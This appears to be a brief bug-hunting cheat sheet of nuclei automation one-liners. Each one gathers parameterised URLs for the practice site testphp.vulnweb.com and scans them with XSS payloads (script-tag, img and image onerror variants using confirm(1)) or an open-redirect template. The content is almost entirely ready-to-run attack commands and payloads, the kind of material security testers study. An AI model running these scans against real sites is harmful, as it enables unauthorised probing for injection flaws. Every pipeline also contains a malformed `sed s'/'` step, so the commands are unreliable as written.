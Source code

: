 ## NUCLEI AUTOMATION TEMPLATES


**XSS ONE-LINER PAYLOAD `</script><scr<script>ipt>confirm(1)</scr</script>ipt>`**
```
waybackurls testphp.vulnweb.com | grep "=" | sed s'/' | anew | uro | nuclei -t ~/tools/templates/xss-script.yaml
```

**XSS ONE-LINER PAYLOAD `<img src=x onerror=confirm(1)>`**
```
waybackurls testphp.vulnweb.com | grep "=" | sed s'/' | anew | uro | nuclei -t ~/tools/templates/xss-img.yaml
```

**XSS ONE-LINER PAYLOAD `<image/src/onerror=confirm(1)>`**
```
waybackurls testphp.vulnweb.com | grep "=" | sed s'/' | anew | uro | nuclei -t ~/tools/templates/xss-image.yaml
```


**OPENREDIRECT ONE-LINER**
```
waybackurls testphp.vulnweb.com | grep "=" | sed s'/' | anew | uro | nuclei -t ~/tools/templates/openredirect-checker.yaml
```
